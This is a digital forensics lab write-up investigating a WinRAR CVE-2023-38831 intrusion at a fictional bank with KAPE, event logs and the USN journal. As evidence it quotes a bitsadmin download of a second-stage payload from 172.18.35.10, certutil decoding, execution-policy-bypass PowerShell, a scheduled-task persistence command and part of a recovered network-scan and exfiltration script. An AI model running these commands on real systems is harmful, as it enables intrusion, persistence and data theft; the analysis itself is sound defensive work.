



# Spotted In The Wild - Digital Forensics Investigation

## Author: Dor Levy

## Investigation Scenario

You are part of the incident response team at **FinTrust Bank**. This morning, the network monitoring system flagged **unusual outbound traffic patterns** originating from several workstations. Preliminary analysis by the IT department has identified a potential compromise linked to an **exploited vulnerability in WinRAR software**.
## Disk Image Acquisition

For this investigation, I received a forensic disk image file: **c125-SpottedInTheWild.vhd**. This **VHD (Virtual Hard Disk)** contains a full snapshot of a compromised system.
The following image shows the mentioned file:

To analyze this disk image, I mounted it using **Arsenal Image Mounter**, which allows me to access **Volume Shadow Copies (VSS)** and maintain forensic integrity.
The following image demonstrates the use of Arsenal Image Mounter to mount the disk:


## What is KAPE?

**KAPE (Kroll Artifact Parser and Extractor)** is a powerful forensic tool designed to collect, parse, and analyze digital artifacts from compromised systems. It operates using:

- **Targets**: Defines **which** files and locations to collect from a system.
- **Modules**: Specifies **how** to process and analyze the collected artifacts.

Since the disk image I received was already a **KAPE Target collection**, the most logical approach was to process it using a **KAPE Module** to extract valuable insights efficiently.
The following image shows the disk contents after mounting:

## Running KAPE Modules

To analyze the extracted artifacts, I executed **Eric Zimmerman's Tools module** within KAPE. This module is widely used in forensic investigations due to its ability to process key forensic artifacts efficiently.
The following image shows the execution of the command in KAPE and the modules I used:

### Breakdown of the Tools Used in This Module

Below is a brief explanation of each forensic parser used within the module and its purpose:

1. **AmcacheParser** - Parses `Amcache.hve`, which records program execution and installation history.
2. **AppCompatCacheParser** - Extracts ShimCache data to track executed applications.
3. **EvtxECmd** - Processes Windows Event Logs (`.evtx`) for security-related activity.
4. **JLECmd** - Parses Jump Lists, providing insights into user activity and recent file access.
5. **LECmd** - Extracts and decodes LNK (shortcut) files to determine file access patterns.
6. **MFTECmd** - Analyzes the Master File Table (MFT) to reconstruct file system activity.
7. **PECmd** - Parses Prefetch files to determine application execution timestamps.
8. **RBCmd** - Analyzes the Windows Recycle Bin for deleted file recovery.
9. **RecentFileCacheParser** - Extracts metadata from `RecentFileCache.bcf` to track recently accessed files.
10. **RECmd\_DFIRBatch** - Automates registry analysis for key forensic insights.
11. **SBECmd** - Extracts System Boot Execution logs to track startup activity.
12. **SQLECmd** - Parses SQLite databases, commonly used in browser history and messaging applications.
13. **SrumECmd** - Analyzes the System Resource Usage Monitor (SRUM) to track application network activity.
14. **SumECmd** - Extracts summary information about program execution history.
15. **WxTCmd** - Parses Windows Timeline artifacts to reconstruct user activities.

By running these **Eric Zimmerman tools** within KAPE, I can efficiently collect and process vital forensic artifacts, allowing me to reconstruct the sequence of events leading up to the security breach.

---

## Question 1: Identifying the Entry Point

### Question:

**In your investigation into the FinTrust Bank breach, you found an application that was the entry point for the attack. Which application was used to download the malicious file?**

### Answer:

After mounting the disk image, I navigated through the file system and made an interesting discovery. There is clear evidence that **Telegram Desktop** was installed on the compromised system. This is a significant finding because Telegram is not only a messaging platform but also allows users to send, receive, and download files directly to their system.

Further examination of the **Telegram Desktop directory** reveals a **RAR archive named ****`SANS SEC401.rar`**, which was stored within the user's **Telegram Downloads** folder.

Inside this **RAR archive**, a **subfolder named ****`SANS SEC401.pdf`** was found, containing the following suspicious file:

- **`SANS SEC401.pdf .cmd`**
_The following image shows the file **`SANS SEC401.rar`**, located at: **`C:\Users\Administrator\Downloads\Telegram Desktop\SANS SEC401.rar`**_ 
_Additionally, the suspicious file **`SANS SEC401.pdf .cmd`** can be seen in the image, located at: **`C:\Users\Administrator\Downloads\Telegram Desktop\SANS SEC401.rar\SANS SEC401.pdf\SANS SEC401.pdf .cmd`**_


This file is an executable script. Its placement inside a directory resembling a legitimate course material archive, along with its **double file extension**, makes it highly suspicious. The naming convention suggests an attempt to **deceive the user into executing a malicious payload**, leveraging a familiar filename to avoid detection.
_The following image shows the obfuscated content of the file **`SANS SEC401.pdf .cmd`**_.


To further validate the suspicion around this file, I extracted its hash values using **HashMyFiles**, a tool from NirSoft that allows for quick hash computation of files.
The following image shows the MD5 hash result of the file **`SANS SEC401.pdf .cmd`**, as calculated using **HashMyFiles** by NirSoft.

Once the hashes were obtained, I conducted a lookup on **VirusTotal**, an online malware analysis platform. The scan results confirmed that the file is classified as **malicious**:

[View VirusTotal Analysis](https://www.virustotal.com/gui/file/5790225b1bcfa692c57a0914dd78678ceef6e212fbe7042b7ddf5a06fd4ab70d)
_The following image shows the **VirusTotal analysis** of the file **`SANS SEC401.pdf .cmd`**, where it has been classified as a **Trojan** under the threat label **trojan.leopard**._


**Final Answer to Question 1:** The application used to download the malicious file was **Telegram**.

---

## Question 2: Determining the Attack Timestamp

### Question:

**Finding out when the attack started is critical. What is the UTC timestamp for when the suspicious file was first downloaded?**

### Answer:

To determine when the malicious file was first downloaded, I examined the **Master File Table (MFT)**, which was extracted as part of the **KAPE analysis**. The MFT contains metadata for all files on an NTFS file system, including creation timestamps.

By analyzing the parsed MFT results, I identified the **CREATED0X10** timestamp for the suspicious file, which indicates when it was first written to disk. The recorded timestamp is:

- **2024-02-03 07:33:20 UTC**

This confirms the exact moment when the file was introduced to the system.
_The following image shows the extracted **Master File Table (MFT)** analysis, revealing key metadata about the suspicious file:_

- **File Name:** `SANS SEC401.rar`
- **File Path:** `C:\Users\Administrator\Downloads\Telegram Desktop\SANS SEC401.rar`
- **Associated Zone Identifier:** Indicates the file was downloaded from the internet (`ZoneId=3`)
- **Creation Timestamp (CREATED0X10):** `2024-02-03 07:33:20 UTC`, confirming when the file was first written to disk.
 
### Understanding NTFS Timestamps
NTFS file systems store four key timestamps for every file, commonly referred to as **MACB times**:

- **Modified (M)** - Last time the file content was modified.
- **Accessed (A)** - Last time the file was accessed (viewed or executed).
- **Changed (C)** - Last time the file’s metadata (e.g., permissions) was modified.
- **Born (B) / Created0x10** - When the file was first created on the disk.

In this case, the **Created0x10** timestamp is particularly relevant, as it reflects when the file was first introduced to the system. For more details on NTFS timestamps and their forensic significance, refer to: [MACB Times in Windows Forensic Analysis](https://andreafortuna.org/2017/10/06/macb-times-in-windows-forensic-analysis/).

### Additional Confirmation: Zone.Identifier Analysis
Another way to validate that this file originated from an external source is by analyzing its **Zone.Identifier** alternate data stream (ADS). This metadata is attached to files downloaded from the internet and indicates their origin.

The **Zone.Identifier** for `SANS SEC401.rar` shows:
- **ZoneID = 3**

This value signifies that the file was downloaded from the internet, further reinforcing that it was externally introduced rather than being locally generated.

### What is Zone.Identifier?
The **Zone.Identifier** is an Alternate Data Stream (ADS) that Windows automatically attaches to files obtained from external sources, such as browsers and messaging applications. The **ZoneID values** are as follows:

- **ZoneID = 0** → Local machine (no risk classification)
- **ZoneID = 1** → Local intranet zone
- **ZoneID = 2** → Trusted sites zone
- **ZoneID = 3** → Internet zone (downloaded from the web)
- **ZoneID = 4** → Restricted sites zone (potentially dangerous origin)

Since the **ZoneID for `SANS SEC401.rar` is 3**, it confirms that this file was downloaded from the internet, aligning with our findings from the **MFT analysis**.

**Final Answer to Question 2:** The suspicious file was first downloaded at **2024-02-03 07:33:20 UTC**.

---

## Question 3: Identifying the Exploited Vulnerability

### Question:
**Knowing which vulnerability was exploited is key to improving security. What is the CVE identifier of the vulnerability used in this attack?**

### Answer:
Based on the investigation details and the nature of the exploit involving WinRAR, the vulnerability in question is **CVE-2023-38831**.

### Overview of CVE-2023-38831
CVE-2023-38831 is a critical security vulnerability discovered in versions of WinRAR prior to 6.23. This vulnerability allows attackers to execute arbitrary code when a user attempts to view a seemingly benign file within a ZIP archive. The exploit occurs because a ZIP archive can include a benign file (such as an ordinary `.JPG` file) and a folder with the same name as the benign file. When the user tries to access the benign file, WinRAR processes the contents of the folder (which may include executable content), leading to unintended code execution.

For more details, refer to the official CVE entry: [CVE-2023-38831 - NIST](https://nvd.nist.gov/vuln/detail/cve-2023-38831)

### How Attackers Exploit This Vulnerability
Attackers craft malicious ZIP archives containing both a benign-looking file and a folder with the same name as that file. Inside the folder, they place malicious executable content. When a user opens the benign-looking file using a vulnerable version of WinRAR, the application inadvertently executes the malicious code inside the folder, leading to arbitrary code execution on the victim's system.


A deeper analysis of how attackers leveraged this vulnerability can be found here: [Google Threat Analysis on WinRAR Exploits](https://blog.google/threat-analysis-group/government-backed-actors-exploiting-winrar-vulnerability/)

### Application in the Current Investigation
In this investigation, the malicious archive named `SANS SEC401.rar` contained a folder named `SANS SEC401.pdf` and within it, a file named `SANS SEC401.pdf .cmd`. This structure is consistent with the exploitation method of CVE-2023-38831, where the malicious `.cmd` file is executed when the user attempts to access the benign-looking `.pdf` file. This confirms that the attackers leveraged this specific WinRAR vulnerability to compromise the system.

### Recommendation
It is crucial to update WinRAR to version 6.23 or later, as this vulnerability has been patched in that release. Users should exercise caution when opening archives from untrusted sources and ensure that all software is kept up-to-date to mitigate such security risks.

For further analysis and mitigation strategies, see: [Group-IB Research on WinRAR Exploit](https://www.group-ib.com/blog/cve-2023-38831-winrar-zero-day/)

**Final Answer to Question 3:** The CVE identifier of the vulnerability used in this attack is **CVE-2023-38831**.

---

## Question 4: Identifying the Malicious File

### Question:

**In examining the downloaded archive, you noticed a file with an odd extension indicating it might be malicious. What is the name of this file?**

### Answer:

Based on the findings from the previous questions, the malicious file inside the downloaded archive is:

- **SANS SEC401.pdf .cmd**

This file is suspicious due to its **double file extension (****`.pdf .cmd`****)**, which is a common technique used to disguise executable files as legitimate documents. This naming convention is intended to trick users into thinking the file is a harmless PDF when in reality, it is a script that can execute commands on the system.
_The following image shows the file **`SANS SEC401.rar`**, located at: **`C:\Users\Administrator\Downloads\Telegram Desktop\SANS SEC401.rar`**_ 
_Additionally, the suspicious file **`SANS SEC401.pdf .cmd`** can be seen in the image, located at: **`C:\Users\Administrator\Downloads\Telegram Desktop\SANS SEC401.rar\SANS SEC401.pdf\SANS SEC401.pdf .cmd`**_


**Final Answer to Question 4:** The malicious file found in the archive is **SANS SEC401.pdf .cmd**.

---

## Question 5: Identifying the URL Used for the Second-Stage Payload

### Question:
**Uncovering the methods of payload delivery helps in understanding the attack vectors used. What is the URL used by the attacker to download the second stage of the malware?**

### Answer:
To determine the source of the second-stage payload, I first attempted to read the contents of the malicious file **SANS SEC401.pdf .cmd**. However, direct reading was unsuccessful due to **obfuscation techniques** used within the file.
_The following image shows the obfuscated content of the file **`SANS SEC401.pdf .cmd`**_.


Since the content was unreadable, I utilized **strings.exe** from **Sysinternals Suite** to extract any embedded readable text from the file. The output was stored in:

```

C:\cases\SpottedInTheWild\strings.txt


```

_The following image shows the execution of **strings64.exe** from the **Sysinternals Suite**, used to extract readable text from the file **`SANS SEC401.pdf .cmd`**._


**Command Executed:**

```

C:\ForensicTools\SysinternalsSuite\strings64.exe ^
"C:\cases\SpottedInTheWild\SANS SEC401.pdf .cmd" ^
> "C:\cases\SpottedInTheWild\strings.txt"


```

**Output File:**  
`C:\cases\SpottedInTheWild\strings.txt`

**Purpose:**  
Extracting readable strings from the suspicious file for further analysis.
### Key Findings from Strings Analysis
Within the extracted strings, I identified two important lines:

```

%%LzKV:~38,1%%LzKV:~38,1%%LzKV:~50,1%%LzKV:~23,1%:\Windows\Temp\Eventlogs.ps1
%LzKV:~4,1%%LzKV:~56,1%%LzKV:~27,1%%LzKV:~50,1%%LzKV:~23,1%:\Windows\Temp\Eventlogs.ps1


```

These lines indicate the presence of a **PowerShell script named `Eventlogs.ps1`** in the **Windows Temp directory**. This script is likely involved in executing the next stage of the attack and will be analyzed in subsequent steps.
_The following image shows the extracted strings from the **`strings.txt`** file, revealing key findings:_

```

%%LzKV:~38,1%%LzKV:~38,1%%LzKV:~50,1%%LzKV:~23,1%:\Windows\Temp\Eventlogs.ps1
%LzKV:~4,1%%LzKV:~56,1%%LzKV:~27,1%%LzKV:~50,1%%LzKV:~23,1%:\Windows\Temp\Eventlogs.ps1


```

These lines indicate the presence of a **PowerShell script named `Eventlogs.ps1`** in the **Windows Temp directory**. This script is likely involved in executing the next stage of the attack and will be analyzed in subsequent steps.


Additionally, I discovered another crucial line:

```

://172.18.35.10:8000/amanwhogetsnorest.jpg%LzKV:~50,1%%LzKV:~23,1%:\Windows\Temp\amanwhogetsnorest.jpg


```

From this, I identified an **IP address (172.18.35.10) communicating over port 8000**, attempting to download a file named `amanwhogetsnorest.jpg`. However, this file was not present on the system at the time of analysis.
_The following image shows the extracted strings from the **`strings.txt`** file, revealing key findings:_

```

://172.18.35.10:8000/amanwhogetsnorest.jpg%LzKV:~50,1%%LzKV:~23,1%:\Windows\Temp\amanwhogetsnorest.jpg


```


### Confirmation via Event Log Analysis
To validate whether this file was actually downloaded, I analyzed **Windows Event Logs** using **EvtxECmd from EZ Tools**. Within the parsed logs, I found an event containing the following data:

```json

{"EventData":{"Data":[{"@Name":"transferId","#text":"d7f0f55b-c556-4c70-8bd2-5eb7620533aa"},{"@Name":"name","#text":"Nothing"},{"@Name":"Id","#text":"13ca578d-87e4-4303-baae-9c1ab4ccccd9"},{"@Name":"url","#text":"http://172.18.35.10:8000/amanwhogetsnorest.jpg"},{"@Name":"peer"},{"@Name":"hr","#text":"0"},{"@Name":"fileTime","#text":"2024-02-03 07:30:36.0000000"},{"@Name":"fileLength","#text":"3816"},{"@Name":"bytesTotal","#text":"3816"},{"@Name":"bytesTransferred","#text":"3816"},{"@Name":"proxy"},{"@Name":"peerProtocolFlags","#text":"0"},{"@Name":"bytesTransferredFromPeer","#text":"0"},{"@Name":"AdditionalInfoHr","#text":"0"},{"@Name":"PeerContextInfo","#text":"0"},{"@Name":"bandwidthLimit","#text":"18446744073709551615"},{"@Name":"ignoreBandwidthLimitsOnLan","#text":"False"}]}}


```

_The following image shows the parsed **Windows Event Logs** related to a BITS (Background Intelligent Transfer Service) transfer, revealing key findings:_

- **Event IDs:**
    - `59` - BITS transfer has started
    - `61` - BITS transfer has stopped
    - `60` - BITS transfer has completed
- **Timestamp:** The transfer occurred between `2024-02-03 07:34:23 UTC` and `2024-02-03 07:34:37 UTC`.
- **Significance:** These events confirm that a file named **`amanwhogetsnorest.jpg`** was downloaded from **`http://172.18.35.10:8000/`** using **BITS**, a legitimate Windows service often abused by attackers for stealthy file transfers.
- **Highlighted Line Explanation:** The red-marked log entry (`Event ID 60`) confirms that the **entire file (3816 bytes) was successfully transferred**, proving that the payload was successfully delivered to the system.

Additionally, this log allows me to **corroborate the full URL** and **validate the execution of the command found within the malicious `SANS SEC401.pdf .cmd` file**, further confirming its role in the attack sequence.
### Conclusion
The log indicates that **data was successfully transferred**, confirming that the file `amanwhogetsnorest.jpg` was downloaded from the external host.

Thus, the final answer to **Question 5** is:

**http://172.18.35.10:8000/amanwhogetsnorest.jpg**

## Question 6: Identifying the Log Tampering Script

### Question:

**To further understand how attackers cover their tracks, identify the script they used to tamper with the event logs. What is the script name?**

### Answer:

In the previous section, I found evidence of a PowerShell script named **Eventlogs.ps1**. This file was referenced in the extracted strings from **SANS SEC401.pdf .cmd**, indicating its role in the attack.

To confirm its presence on the system, I searched for **Eventlogs.ps1** in the file system but found that it had already been deleted. Therefore, I turned to **Journaling logs (USN Journal)** to investigate its creation and deletion history.

---

### Understanding the USN Journal

The **USN (Update Sequence Number) Journal** is a log maintained by the **NTFS file system** that records changes to files, such as **creation, modification, and deletion**. It provides valuable forensic evidence when files have been deleted, as it retains metadata even after a file has been removed.

By parsing the **USN Journal**, which was extracted and analyzed using **MFTECmd**, I was able to retrieve the following timeline for **Eventlogs.ps1**:

- **February 3, 2024 - 07:34:39 UTC** - File was created.
- Several modifications occurred, including changes to its content and metadata.
- **February 3, 2024 - 07:38:01 UTC** - File was deleted.

_The following image shows the extracted **USN Journal** logs, revealing key findings:_  


####  **Findings from the Image:**

- The image displays an entry for the **`Eventlogs.ps1`** file.
- The **creation timestamp** (`07:34:39 UTC`) confirms when the file was first introduced to the system.
- The **deletion timestamp** (`07:38:01 UTC`) confirms that the file was removed after execution, likely as an attempt to cover tracks.
- The journal logs provide **forensic evidence** that the file existed and was later deleted, even though it is no longer visible in the file system.

---

### Correlation with Security Log Deletion

To further validate that **Eventlogs.ps1** was responsible for tampering with event logs, I analyzed **PowerShell event logs** for execution traces.

I discovered an entry related to **Event ID 403**, which indicates a change in **PowerShell engine state** from **Available** to **Stopped**. The event log contained the following data:

```

{"EventData":{"Data":"Stopped, Available, 	
NewEngineState=Stopped
PreviousEngineState=Available

SequenceNumber=15

HostName=ConsoleHost
HostVersion=5.1.17763.1
HostId=71f90463-6c3b-4051-91a0-90ced9c1e0d7
HostApplication=powershell -NOP -EP Bypass C:\Windows\Temp\Eventlogs.ps1
EngineVersion=5.1.17763.1
RunspaceId=6e0eac6c-8cae-4ab5-abb1-3ccb8b938fca
PipelineId=
CommandName=
CommandType=
ScriptName=
CommandPath=
CommandLine=","Binary":""}}


```

_The following image shows the parsed **Windows Event Logs** confirming PowerShell execution:_  


####  **Findings from the Image:**

- The log entry is from **February 3, 2024, at 07:38:01 UTC**, the same time the **Eventlogs.ps1** file was deleted.
- The **HostApplication field** explicitly shows the execution of `powershell -NOP -EP Bypass C:\Windows\Temp\Eventlogs.ps1`.
- The **PowerShell execution policy was bypassed**, meaning the script was allowed to run without restrictions.
- This confirms that **Eventlogs.ps1 was executed**, and the attacker used PowerShell to carry out actions, likely including log tampering.

---

### Security Log Clearance Evidence

To determine the script's function, I searched for **Event ID 1102** in the parsed **Windows Event Logs**. This event ID indicates that **security logs were cleared**.

- **Timestamp of Event ID 1102:** **February 3, 2024 - 07:38:01 UTC**
- **Timestamp of Eventlogs.ps1 deletion:** **February 3, 2024 - 07:38:01 UTC**

_The following image shows the parsed **Event ID 1102**, confirming security log deletion:_  


#### **Findings from the Image:**

- The **Event ID 1102** log entry confirms that **security logs were cleared** on **February 3, 2024, at 07:38:01 UTC**.
- This is the **exact timestamp** when `Eventlogs.ps1` was deleted, strongly suggesting that this script was responsible for log tampering.
- Clearing logs is a common **anti-forensic technique** used by attackers to erase evidence of their actions.

---

### Conclusion

By analyzing the **USN Journal logs** extracted through **MFTECmd** and correlating them with **Event ID 1102**, we can conclude that the **Eventlogs.ps1** script was executed at **07:38:01 UTC on February 3, 2024**, and was responsible for **clearing system logs**.

Thus, the final answer to **Question 6** is:

**Eventlogs.ps1**

## Question 7: Identifying the Execution Timestamp of the Log Tampering Script

### Question:

**Knowing when unauthorized actions happened helps in understanding the attack. What is the UTC timestamp for when the script that tampered with event logs was run?**

### Answer:

Based on the findings from the previous question, the **PowerShell event log (Event ID 403)** confirmed that the script **Eventlogs.ps1** was executed. This event aligns exactly with the **Event ID 1102** security log clearance event, which indicates that the script was responsible for deleting event logs.

---

### Evidence from PowerShell Execution Logs

To pinpoint the exact execution time of **Eventlogs.ps1**, I analyzed the **Windows Event Logs**, particularly **Event ID 403** from the PowerShell provider. This event records changes in the PowerShell engine state and execution details.

The log entry contains the following key details:

- **Event ID:** `403`
- **Provider:** `PowerShell`
- **Computer Name:** `DESKTOP-2R3AR22`
- **Timestamp:** **February 3, 2024 - 07:38:01 UTC**
- **Map Description:** `Engine state is changed from Available to Stopped`
- **Command Executed:**


```powershell

powershell -NOP -EP Bypass C:\Windows\Temp\Eventlogs.ps1


```

_The following image shows the parsed **Windows Event Logs** confirming PowerShell execution:_  


####  **Findings from the Image:**

- The log was generated on **February 3, 2024, at 07:38:01 UTC**, confirming the exact execution time of **Eventlogs.ps1**.
- The **HostApplication field** explicitly records the **PowerShell execution command**, showing that it was run with **execution policy bypass** (`-NOP -EP Bypass`).
- The **PowerShell engine transitioned from "Available" to "Stopped"**, further supporting that a script was executed and then terminated.

---

### Correlation with Security Log Deletion

To confirm that **Eventlogs.ps1** was responsible for **clearing event logs**, I searched for **Event ID 1102**, which indicates that **Windows Security Logs were cleared**.

- **Timestamp of Event ID 1102:** **February 3, 2024 - 07:38:01 UTC**
- **Timestamp of Eventlogs.ps1 execution (Event ID 403):** **February 3, 2024 - 07:38:01 UTC**

_The following image shows the parsed **Event ID 1102**, confirming security log deletion:_  

####  **Findings from the Image:**

- The **Event ID 1102** log confirms that **system security logs were cleared** at **07:38:01 UTC on February 3, 2024**.
- The **exact match in timestamps** between the **PowerShell execution (Event ID 403)** and the **log clearance (Event ID 1102)** strongly indicates that **Eventlogs.ps1** was the script responsible for tampering with event logs.
- This action was likely performed to **erase forensic evidence** and prevent investigators from tracking previous malicious activities.

---

### Conclusion

By analyzing **Windows Event Logs**, I was able to determine that the **log tampering script (Eventlogs.ps1) was executed at 07:38:01 UTC on February 3, 2024**. This timestamp serves as a crucial reference point for investigating **other system changes, network activity, or process executions** that may have occurred around the same time.

Thus, the final answer to **Question 7** is:

**07:38:01 UTC on February 3, 2024**.

---

## Question 8: Identifying the Attacker's Persistence Mechanism

### Question:
**We need to identify if the attacker maintained access to the machine. What is the command used by the attacker for persistence?**

### Answer:
To determine how the attacker maintained persistence on the compromised system, I decided to execute the malicious file **SANS SEC401.pdf .cmd** in an **isolated environment** and observe its behavior. For this analysis, I used **CMDWATCHER**.

### What is CMDWATCHER?
**CMDWATCHER** is a forensic tool designed to monitor and log **command-line activity** in real-time. It helps in analyzing how a process interacts with the system by capturing executed commands. This is particularly useful for identifying persistence mechanisms, privilege escalation attempts, and file manipulation by malware.

By executing the malicious file in a controlled environment, I was able to reconstruct its behavior.

_The following image shows the full script executed by **SANS SEC401.pdf .cmd**, along with the commands it runs._

- This script is responsible for multiple attack phases, including:
    - **Downloading malicious payloads** from an external server.
    - **Decoding files** to extract additional scripts.
    - **Executing commands** with bypassed security restrictions.
    - **Creating a scheduled task for persistence** to ensure continued execution.
    - **Deleting traces** to evade detection.

In the next section, I will provide a detailed breakdown of each command executed by this script.


### Observed Attack Sequence:
Upon execution of **SANS SEC401.pdf .cmd**, the following events were triggered:

1. **Downloading the second-stage payload:**
   ```
   bitsadmin /transfer Nothing /download /priority normal http://172.18.35.10:8000/amanwhogetsnorest.jpg C:\Windows\Temp\amanwhogetsnorest.jpg
   ```
   - The malware downloads **amanwhogetsnorest.jpg** from an external server.
	_The following image shows the parsed **Windows Event Logs** related to a BITS (Background Intelligent Transfer Service) transfer, revealing key findings:_
	
	- **Event IDs:**
	    - `59` - BITS transfer has started
	    - `61` - BITS transfer has stopped
	    - `60` - BITS transfer has completed
	- **Timestamp:** The transfer occurred between `2024-02-03 07:34:23 UTC` and `2024-02-03 07:34:37 UTC`.
	- **Significance:** These events confirm that a file named **`amanwhogetsnorest.jpg`** was downloaded from **`http://172.18.35.10:8000/`** using **BITS**, a legitimate Windows service often abused by attackers for stealthy file transfers.
	- **Highlighted Line Explanation:** The red-marked log entry (`Event ID 60`) confirms that the **entire file (3816 bytes) was successfully transferred**, proving that the payload was successfully delivered to the system.
	

2. **Decoding the downloaded file to extract additional scripts:**
   ```
   certutil -decode amanwhogetsnorest.jpg normal.zip 1>nul
   ```
   - The malware uses `certutil` to decode **amanwhogetsnorest.jpg** into a ZIP archive named **normal.zip**, which contains:
     - `Eventlog.ps1`
     - `run.bat`
     - `run.ps1`
	_The following image from **MFT parse** shows the extracted files, confirming their presence in the system:_
	
	
	- **File Path:** `C:\Windows\Temp\`
	- **Extracted Files:**
	    - **`run.ps1`** - Created on **February 3, 2024, at 07:34:40 UTC**
	    - **`run.bat`** - Created on **February 3, 2024, at 07:34:39 UTC**
	
	These files were extracted from **normal.zip**, which was decoded from **amanwhogetsnorest.jpg** using the `certutil -decode` command. Their presence aligns with the attack sequence, confirming their role in executing persistence mechanisms.

3. **Executing additional scripts:**
   ```
   cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\z.ps1"
   ```
   - Executes **z.ps1**, which is responsible for extracting ZIP files in `C:\Windows\Temp\`.
	_The following image, which is extracted from the **USN Journal parse**, shows the sequence of events related to the file **z.ps1**:_
	
	- **File Path:** `C:\Windows\Temp\z.ps1`
	- **Update Timestamps and Actions:**
	    - **February 3, 2024, at 07:34:37 UTC** - **FileCreate** → The file **z.ps1** was created.
	    - **February 3, 2024, at 07:34:37 UTC** - **DataExtend → FileCreate** → The file's content was modified, indicating data was written into it.
	    - **February 3, 2024, at 07:34:37 UTC** - **DataExtend → FileCreate → Close** → The file was finalized and closed after modification.
	    - **February 3, 2024, at 07:34:40 UTC** - **FileDelete → Close** → The file was deleted.
	
	This confirms that **z.ps1** was created, executed, and then deleted within a short timeframe, reinforcing its role in extracting and running additional scripts as part of the attack sequence.

4. **Creating a scheduled task for persistence:**
   ```
   schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST
   ```
   - This command creates a **scheduled task** named `whoisthebaba` that runs **run.bat** every **3 minutes** with the highest privilege level.
   - This guarantees that the attacker's script will continue executing periodically, maintaining persistent access to the system.
	_The following image from **cmdwatcher** shows the execution of the scheduled task creation command:_
	
	
	- The **SANS SEC401.pdf .cmd** script is actively running, as seen in the command prompt window.
	- The **lower-right alert window** confirms the process creation, showing that `schtasks.exe` was detected as running, verifying that the persistence mechanism was successfully deployed.
	  
	### **Understanding Scheduled Task Persistence**
	Windows **Task Scheduler** is a built-in feature that allows automated execution of commands or scripts. Attackers abuse this mechanism to gain **persistent access** to a system, ensuring malicious processes run at scheduled intervals.
	
	**The command used by the attacker:**
	```cmd
	schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST
	```
	
	- **/sc minute /mo 3** → Runs the task **every 3 minutes**.
	- **/tn "whoisthebaba"** → Names the scheduled task **whoisthebaba**.
	- **/tr C:\Windows\Temp\run.bat** → Executes **run.bat**, which likely maintains persistence or downloads additional payloads.
	- **/RL HIGHEST** → Runs with **highest privileges**, bypassing security restrictions.
	
	Since scheduled tasks remain active across reboots, this mechanism ensures that the attacker **maintains persistent access** to the compromised system.

5. **Deleting traces:**
   ```
   del amanwhogetsnorest.jpg
   del normal.zip
   del Eventlog.ps1
   ```
   - The malware deletes its components to cover its tracks after execution.

### Conclusion:
The presence of the **whoisthebaba** scheduled task confirms that the attacker implemented persistence using Windows Task Scheduler. 

Thus, the final answer to **Question 8** is:

```

schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST


```

---

## Question 9: Identifying the File Used for Data Exfiltration

### Question:
**To understand the attacker’s data exfiltration strategy, we need to locate where they stored their harvested data. What is the full path of the file storing the data collected by one of the attacker’s tools in preparation for data exfiltration?**

### Answer:
During the investigation, I identified that the **malicious script used for data exfiltration was `run.ps1` or `run.bat`**. To analyze its behavior, I searched for and examined the script on the compromised system.

Within the script, I found a variable named **`best64code`**, which contained what appeared to be **Base64-encoded data**. This encoding method is commonly used by attackers to **evade detection, obfuscate malicious payloads, and bypass security controls**.
_The following image shows the content of the script **run.ps1**. Within the script, the variable **$best64code** is defined, containing a long Base64-encoded string. Additionally, the variable **$LOADCode** is used to decode the Base64 content, and an alias named **pWn** is assigned and executed._

### Understanding Base64 Encoding in Attacks
Base64 is not an encryption method but rather an encoding scheme used to convert binary data into ASCII characters. **Attackers often use Base64 encoding to hide commands, scripts, or stolen data**, making it harder for security tools to detect malicious activity. Decoding Base64 is a standard step in forensic investigations to reveal the actual content of encoded data.

### Decoding the Encoded Data
To decode the Base64 string, I used **CyberChef**, a widely used open-source forensic tool that provides a range of encoding and decoding functions.

First, I applied **Base64 Decode** in CyberChef, but the output was still unreadable.
_The following image shows my attempt to use **CyberChef** to decode the Base64-encoded content. The **input** section contains the encoded string, and the **"From Base64"** function was applied. However, the output remains unreadable, indicating that additional obfuscation methods may have been used._
   
   
   Recognizing a potential **obfuscation technique**, I reversed the text string and then applied **Base64 Decode** again.  This revealed a readable PowerShell script that was responsible for scanning network hosts and preparing stolen data for exfiltration.
_The following image shows the result after applying the **Reverse** function followed by **Base64 Decode** in CyberChef. The decoded content reveals a readable PowerShell script responsible for scanning network hosts and preparing stolen data for exfiltration. The script defines an IP range, checks which hosts are online, saves the results to a file (`BL4356.txt`), and then exfiltrates the data to an external server._

### Recovered Malicious PowerShell Script


```powershell

$startIP = "192.168.1.1"
$endIP = "192.168.1.99"
$outputFile = "$env:UserProfile\AppData\Local\Temp\BL4356.txt"

$start = [System.Net.IPAddress]::Parse($startIP).GetAddressBytes()[3]
$end = [System.Net.IPAddress]::Parse($endIP).GetAddressBytes()[3]

for ($current = $start; $current -le $end; $current++) {
    $currentIP = "$($startIP.Substring(0, $startIP.LastIndexOf('.') + 1))$current"
    $result = Test-Connection -ComputerName $currentIP -Count 1 -ErrorAction SilentlyContinue

    if ($result -ne $null) {
        Write-Host "Host $currentIP is online."
        "Host $currentIP is online." | Out-File -Append -FilePath $outputFile
    } else {
        Write-Host "Host $currentIP is offline."
        "Host $currentIP is offline." | Out-File -Append -FilePath $outputFile
    }
}

Write-Host "Scan results saved to $outputFile"
$var = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes($outputFile))
